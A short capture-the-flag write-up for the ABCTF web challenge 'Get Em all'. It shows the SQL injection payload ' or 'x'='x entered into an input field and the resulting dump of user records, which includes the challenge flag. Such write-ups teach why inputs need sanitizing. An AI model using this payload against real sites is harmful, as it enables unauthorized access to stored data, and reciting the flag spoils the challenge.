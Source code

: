 ```yaml
---
layout: writeup
title: 'Web Exploitation 80: Get ‘Em all'
level:
difficulty:
points:
categories: []
tags: []
flag: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
---
```

**Challenge**   
I think one of the users data fields holds a flag. If only you could
find the username. Link

**Solution**   
SQL injection challenge, we enter the following in the input field:

    ' or 'x'='x

and get the following output, which includes the flag

    Name: Luke
    Data: I made this problem.
    Name: Alec
    Data: Steam boys.
    Name: Jalen
    Data: Pump that iron fool.
    Name: Eric
    Data: I make cars.
    Name: Sam
    Data: Thinks he knows SQL.
    Name: fl4g__giv3r
    Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
    Name: snoutpop
    Data: jowls
    Name: Chunbucket
    Data: @datboiiii

